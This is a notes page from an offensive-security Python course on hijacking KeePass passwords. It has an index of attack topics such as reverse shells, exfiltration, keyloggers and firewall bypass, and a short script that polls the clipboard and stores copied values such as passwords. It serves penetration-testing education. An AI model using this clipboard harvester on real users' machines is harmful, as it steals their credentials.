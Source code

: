 ```yaml
---
title: Hijacking Keepass Password Manager
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - keylogger
---
```


# Hijacking Keepass Password Manager

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).



```python
# Python For Offensive PenTest: A Complete Practical Course- All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


#pip install pyperclip

import pyperclip 
import time

list = [] # we create a list which will store the clipboard content

while True: # infifnite loop to continously check the  clipboard

    if pyperclip.paste() != 'None': # if the clipboard content is not empty ...
        value = pyperclip.paste() # then we will take its value and put it into variable called value

#now to make sure that we don't get replicated items in our list before appending the value varaible into our list, we gonna check if the value is stored eariler in the first place, if not then this menas this is a new item and we will append it to our list


        if value not in list:
            list.append(value)

        print(list)

        time.sleep(3)

```